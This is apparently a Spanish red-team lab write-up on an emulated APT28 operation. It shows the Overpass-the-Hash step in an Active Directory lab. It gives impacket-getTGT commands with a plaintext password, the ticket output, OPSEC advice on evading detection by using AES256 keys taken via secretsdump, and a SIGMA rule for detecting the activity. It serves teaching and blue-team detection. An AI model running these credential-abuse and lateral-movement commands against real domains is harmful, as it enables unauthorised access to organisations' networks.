


# Lateral Movement — Operación IRON FOREST
## Lab-04: Overpass-the-Hash con fin.garcia

**Operación:** IRON FOREST | **Adversario:** APT28 (Fancy Bear) | **Fase:** 03 — Lateral Movement  
**Fecha:** 28/05/2026 | **Operador:** Adrián Camacho

---

## FASE 03 — Overpass-the-Hash

### 3.1 Obtención de TGT Kerberos para fin.garcia

**Objetivo:** Convertir la credencial `fin.garcia:Finance2024!` en un TGT Kerberos.  
Overpass-the-Hash permite autenticación via Kerberos en lugar de NTLM — más sigiloso en entornos modernos.

```bash
impacket-getTGT atackcorp.local/fin.garcia:Finance2024! -dc-ip 10.0.2.10
```

**Output:**
```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in fin.garcia.ccache
```

> 📸 Captura:
> 

---

### 3.2 Verificación del ticket Kerberos

```bash
export KRB5CCNAME=fin.garcia.ccache
klist fin.garcia.ccache
```

**Output:**
```
Ticket cache: FILE:fin.garcia.ccache
Default principal: fin.garcia@ATACKCORP.LOCAL

Valid starting     Expires            Service principal
28/05/26 15:54:25  29/05/26 01:54:25  krbtgt/ATACKCORP.LOCAL@ATACKCORP.LOCAL
        renew until 29/05/26 15:54:25
```

> 📸 Captura:
> 

**Análisis:**
- TGT válido 10 horas — suficiente para completar la operación
- Principal: `fin.garcia@ATACKCORP.LOCAL`
- Servicio: `krbtgt/ATACKCORP.LOCAL` — ticket de autenticación de dominio completo

---

### 3.3 OPSEC — Kerberos vs NTLM

| Método | Evento generado | Detectabilidad |
|---|---|---|
| Pass-the-Hash (NTLM) | Event ID 4624 Logon Type 3 con NTLM | Alta — NTLM sospechoso en entornos modernos |
| Overpass-the-Hash (Kerberos) | Event ID 4768 — TGT Request | Media — tráfico Kerberos legítimo |
| Kerberos con AES256 | Event ID 4768 con etype 18 | Baja — cifrado por defecto |

**Nota:** `impacket-getTGT` usa RC4 por defecto. Para mayor OPSEC usar AES256:
```bash
# Obtener hash AES256 primero via secretsdump
impacket-getTGT atackcorp.local/fin.garcia \
  -aesKey HASH_AES256 \
  -dc-ip 10.0.2.10
```

---

### 3.4 Detección — Blue Team

**Event IDs generados:**
- `4768` — TGT Request (AS-REQ) para fin.garcia desde IP de Kali
- `4769` — TGS Request si se solicitan tickets de servicio adicionales

**Regla SIGMA — TGT Request desde IP no habitual:**
```yaml
title: Kerberos TGT Request from Non-Standard IP
detection:
  selection:
    EventID: 4768
    TargetUserName: 'fin.garcia'
  filter:
    IPAddress: '10.0.2.8'  # IP legítima de WKSTN-01
  condition: selection and not filter
level: medium
```

---

*Operación IRON FOREST — Adrián Camacho | 28/05/2026*  
*Entorno de laboratorio — Únicamente con fines educativos*